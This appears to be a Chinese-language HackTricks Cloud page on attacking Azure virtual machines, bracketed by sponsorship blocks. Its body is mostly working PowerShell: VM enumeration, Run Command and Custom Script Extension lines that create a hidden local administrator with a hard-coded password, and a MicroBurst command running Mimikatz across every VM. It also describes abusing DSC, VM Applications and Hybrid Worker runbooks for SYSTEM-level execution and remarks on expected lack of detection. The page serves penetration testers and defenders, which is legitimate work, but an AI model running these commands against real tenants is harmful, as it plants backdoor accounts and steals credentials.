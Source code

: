 # Az - 虚拟机

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## 基本信息

Azure 虚拟机是 Azure 提供的几种[按需可扩展的计算资源](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)之一。通常，当您需要比其他选择提供的计算环境更多的控制权时，您会选择虚拟机。本文提供了有关在创建虚拟机之前应考虑的事项、如何创建虚拟机以及如何管理虚拟机的信息。

## 枚举
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **在虚拟机中运行命令**

### **在虚拟机中进行AAD登录**

可以允许通过AzureAD进行身份验证的用户访问。例如，尝试访问**Linux虚拟机**：`ssh username@azure-corp.com@1.1.1.1`（在尝试登录时，使用与azurecorp相关的电子邮件是很重要的），可能会出现以下错误：

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

只需按照以下说明前往[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)，输入代码，使用电子邮件和密码作为凭据，即可通过SSH连接（如果该用户具有足够的权限：`Virtual Machine Administrator Login`或`Virtual Machine User Login`角色）。

### **运行命令**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **运行自定义脚本扩展**

Azure虚拟机（VM）扩展是在Azure VM上提供部署后配置和自动化任务的小型应用程序。例如，如果一个虚拟机需要软件安装、防病毒保护或在其中运行脚本的能力，您可以使用VM扩展。

因此，如果您有写入权限，您可以执行任意代码：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState

**DesiredConfigurationState (DSC)** 类似于 Ansible，但它是 PowerShell 中的一个工具，允许通过代码设置主机。DSC 在 Azure 中有自己的扩展，允许上传**配置文件**。DSC [配置文件](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) 对语法要求严格，但 DSC 扩展非常容易受骗，只要遵循一定的格式，它就会**盲目执行任何命令**，如图 5 所示。

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

可以通过 **Az PowerShell** 函数 [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 来实现。DSC 扩展需要一个带有**函数**的 **.PS1** 文件，并打包成 **.zip** 文件。由于这实际上不是正确的 DSC 语法，扩展的状态将显示为“失败”，但代码将被执行。问题在于该命令没有输出，因为状态被覆盖为失败消息。

### VM 应用定义

[VM 应用](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) 资源是一种将版本化应用程序重复部署到 Azure VM 的方法。例如，如果您创建了一个程序，并将其作为版本 1.0 部署到所有 Azure VM，一旦将程序更新为 1.1，您可以使用相同的 VM 应用来创建另一个定义，并将更新推送到任何 VM。\
能够将应用程序推送到 VM 意味着它是另一种代码执行的途径。这种方法的缺点是设置应用程序定义[**需要一些步骤**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal)，但可以使用 Az PowerShell 中的 **`New-AzGalleryApplication`** 和 **`New-AzGalleryApplicationVersion`** 命令来完成。

这种技术利用了一个名为“VMAppExtension”的**扩展**，当将应用程序应用到 VM 上时，它会自动安装。该扩展会将文件从 URI 下载到磁盘上，文件名与应用程序完全相同，这意味着如果应用程序名称为“AzApplication”，磁盘上的文件也被称为“AzApplication”，没有扩展名。这要求在 [REST API 调用](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) 中配置“ManageActions”字段以使用适当的扩展名重命名应用程序。如果不想运行整个应用程序，还可以通过滥用相同的 REST API 方法中的 ManageActions 字段或通过 Azure 门户来运行任意的 PowerShell 命令。设置完成后，定义将类似于图 8。

<figure><img src="../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

这种执行技术很慢（执行应用程序或命令大约需要 3-4 分钟），但由于它相对较新，我会很惊讶是否有任何特定的检测方法。

由于它是一个最终执行的扩展，应用程序的副本位于 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`，执行的状态保存在 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`。

### 混合工作组

[**混合工作组**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)（HWG）允许在配置的 HWG 中的 Azure 虚拟机上运行自动化帐户中的配置的 **Runbook**。再次，使用扩展在 VM 上部署 Runbook 代码。由于使用了扩展，凭据无关紧要，代码将以 **SYSTEM** 或 root 用户身份执行。

<figure><img src="../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

如果使用 Windows 10 VM，请确保将 Runbook 作为 PowerShell 版本 5.1 运行，而不是 7.1，因为默认情况下 VM 上没有安装 7.1，脚本将无法运行。

## 参考资料

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您希望在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 PDF 格式的 HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现我们的独家 [**NFT**](https://opensea.io/collection/the-peass-family) 集合 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass)，或在 **Twitter** 上关注我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧。**

</details>
